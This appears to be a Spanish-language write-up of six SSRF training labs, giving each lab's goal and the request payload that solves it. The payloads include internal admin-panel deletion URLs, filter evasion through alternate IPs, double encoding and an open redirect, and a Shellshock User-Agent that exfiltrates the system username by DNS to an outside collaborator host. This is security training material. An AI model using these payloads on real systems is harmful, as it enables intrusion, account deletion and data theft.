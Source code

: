 ## Reto 1: SSRF básico contra el servidor local

Este laboratorio tiene una función de verificación de existencias que obtiene datos de un sistema interno.

Para resolver el laboratorio, cambie la URL de verificación de existencias para acceder a la interfaz de administración en http://localhost/adminy eliminar el usuario carlos.

Explotamos una vulnerabilidad SSRF en la funcionalidad de stock. Ya demostramos que era posible acceder al panel de administración interno, y ahora profundizamos en cómo automatizar la interacción con rutas internas específicas.

El objetivo en esta parte es enviar una solicitud manipulada desde el parámetro vulnerable para ejecutar una acción concreta: eliminar al usuario carlos desde el panel de administración. Esto demuestra cómo un SSRF básico puede escalar rápidamente en impacto si se accede a funciones internas críticas del servidor.

```
stockApi=http://localhost/admin/delete?username=carlos
```

## Reto 2: SSRF básico contra otro sistema back-end

Este laboratorio tiene una función de verificación de existencias que obtiene datos de un sistema interno.

Para resolver el laboratorio, utilice la función de verificación de existencias para escanear el interior 192.168.0.X rango para una interfaz de administrador en el puerto 8080, luego úsalo para eliminar al usuario carlos. 

Aprovechamos la funcionalidad de verificación de stock para lanzar un escaneo controlado dentro del rango 192.168.0.X, variando la última parte de la IP.

Una vez identificamos qué IP responde en el puerto 8080 con una interfaz de administración accesible, manipulamos el parámetro vulnerable para interactuar con ella y ejecutar una petición que elimina al usuario carlos.


```
stockApi=http://192.168.0.80:8080/admin/delete?username=carlos
```

## Reto 3: SSRF ciega con detección fuera de banda

Este sitio utiliza un software de análisis que obtiene la URL especificada en el encabezado Referer cuando se carga una página de producto.

Para resolver el laboratorio, utilice esta funcionalidad para generar una solicitud HTTP al servidor público Burp Collaborator. 

En esta clase continuamos con el estudio de ataques SSRF, pero en este caso nos enfrentamos a una variante ciega donde no obtenemos respuesta directa de la interacción. Aprovechamos una funcionalidad del sistema que realiza peticiones basadas en el valor del encabezado Referer, utilizado por un software de analítica interna.

Manipulamos este encabezado para incluir un dominio generado por Burp Collaborator, lo que permite detectar si el servidor realiza una solicitud saliente hacia dicho dominio. Aunque no veamos resultados en la respuesta de la aplicación, los logs de Burp Collaborator nos confirman que se ha producido una interacción, validando así la existencia de la vulnerabilidad. 

```html
Referer: https://e3in67nfsxrvz0qy88nx5ojwonuei56u.oastify.com
```

## Reto 4: SSRF con filtro de entrada basado en lista negra

Este laboratorio tiene una función de verificación de existencias que obtiene datos de un sistema interno.

Para resolver el laboratorio, cambie la URL de verificación de existencias para acceder a la interfaz de administración en http://localhost/admin y eliminar el usuario carlos.

El desarrollador ha implementado dos defensas anti-SSRF débiles que deberás evitar. 

centrándonos en cómo evadir defensas basadas en listas negras. La aplicación impide directamente ciertas direcciones como 127.0.0.1 y rutas sensibles como /admin, pero estas restricciones son débiles.

Utilizamos técnicas de evasión como redirecciones a direcciones IP alternativas (por ejemplo, 127.1) y codificación doble de caracteres (%2561 en lugar de a) para engañar al filtro.

```
stockApi=http://127.0.1/%2561dmin/delete?username=carlos
```

## Reto 5:SSRF con omisión de filtro mediante vulnerabilidad de redirección abierta

Este laboratorio tiene una función de verificación de existencias que obtiene datos de un sistema interno.

Para resolver el laboratorio, cambie la URL de verificación de existencias para acceder a la interfaz de administración en http://192.168.0.12:8080/adminy eliminar el usuario carlos.

El verificador de acciones se ha restringido para acceder únicamente a la aplicación local, por lo que primero deberá encontrar una redirección abierta que afecte a la aplicación. 

onde el stock checker sólo permite acceder a rutas internas de la propia aplicación, bloqueando directamente URLs externas. Sin embargo, identificamos una vulnerabilidad de redirección abierta en el parámetro path del endpoint ‘nextProduct’.

Aprovechamos esta redirección para hacer que el stock checker acceda de forma indirecta al panel de administración interno ubicado en http://192.168.0.12:8080/admin. Desde ahí, utilizamos la misma técnica para construir una URL que elimine al usuario carlos, completando así el laboratorio.

```
stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin/delete?username=carlos
```

## Reto 6: SSRF ciego con explotación de Shellshock

Este sitio utiliza un software de análisis que obtiene la URL especificada en el encabezado Referer cuando se carga una página de producto.

Para resolver el laboratorio, use esta funcionalidad para realizar un ataque SSRF ciego contra un servidor interno en el 192.168.0.X rango en el puerto 8080. En el ataque ciego, utilice una carga útil Shellshock contra el servidor interno para exfiltrar el nombre del usuario del sistema operativo. 

En este laboratorio donde el SSRF se combina con la vulnerabilidad Shellshock para ejecutar comandos remotos en un sistema interno. Aprovechamos el hecho de que la aplicación realiza peticiones HTTP a la URL indicada en el header Referer, y que estas peticiones incluyen la cabecera User-Agent, la cual podemos manipular.

Empleamos Burp Collaborator para generar un payload que, al ser ejecutado, filtra el nombre del usuario del sistema mediante una consulta DNS. Este payload es inyectado en el User-Agent usando la sintaxis de Shellshock, y el ataque se lanza desde Burp Intruder variando la IP interna objetivo (192.168.0.X) en el Referer.

Al finalizar, revisamos las interacciones en el Collaborator y recuperamos el nombre del usuario directamente desde el subdominio que llega en la consulta DNS.

```html
GET /product?productId=1 HTTP/2

Host: 0a49008d04099b2982c5c97c004e0047.web-security-academy.net

Cookie: session=8tVbTH6uMIzo42lUDPYTZGa1GhPOgaHh

Sec-Ch-Ua: 

Sec-Ch-Ua-Mobile: ?0

Sec-Ch-Ua-Platform: ""

Upgrade-Insecure-Requests: 1

User-Agent: () { :; }; /usr/bin/nslookup $(whoami).222b5vm3rlqjyopm7wml4ciknbt2h05p.oastify.com

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Sec-Fetch-Site: same-origin

Sec-Fetch-Mode: navigate

Sec-Fetch-User: ?1

Sec-Fetch-Dest: document

Referer: http://192.168.0.§X§:8080

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9
```




